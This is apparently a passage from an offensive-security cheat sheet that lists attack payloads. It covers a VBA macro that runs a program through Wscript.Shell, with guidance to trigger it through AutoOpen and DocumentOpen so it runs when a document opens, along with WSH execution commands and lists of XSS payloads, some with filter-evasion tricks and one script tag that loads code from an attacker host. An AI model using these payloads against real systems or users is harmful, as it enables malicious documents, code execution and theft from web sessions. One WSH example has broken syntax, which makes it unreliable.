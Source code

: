 Save it as `<FILE>.doc` or `<FILE>.docm`.

### Malicious Function

```c
Sub Exec()
  Dim payload As String
  payload = "calc.exe"
  CreateObject("Wscript.Shell").Run payload,0
End Sub
```

Create `AutoOpen()` and `DocumentOpen()` functions to execute the `malicious script`.

## Windows Scripting Host (WSH)

```c
C:\> wscript <FILE>.vbs
C:\> cscript <FILE>.vbs
C:\> wscript /e:VBScript C:\<FILE>.txt
```

### Examples

```c
Dim message
message = "<FOOBAR>"
MsgBox message
```

```c
Set shell = WScript.CreateObject(Wscript.Shell"")
shell.Run("C:\Windows\System32\calc.exe" & WScript.ScriptFullName),0,True
```

## Cross-Site Scripting (XSS)

> https://github.com/payloadbox/xss-payload-list

### Common Payloads

```c
<script>alert('XSS')</script>
<scr<script>ipt>alert('XSS')</scr<script>ipt>
"><script>alert('XSS')</script>
"><script>alert(String.fromCharCode(88,83,83))</script>
<script src="http://<LHOST>/<FILE>"></script>
```

### IMG Payloads

```c
<img src=x onerror=alert('XSS');>
<img src=x onerror=alert('XSS')//
<img src=x onerror=alert(String.fromCharCode(88,83,83));>
<img src=x oneonerrorrror=alert(String.fromCharCode(88,83,83));>
<img src=x:alert(alt) onerror=eval(src) alt=xss>
"><img src=x onerror=alert('XSS');>
"><img src=x onerror=alert(String.fromCharCode(88,83,83));>
```
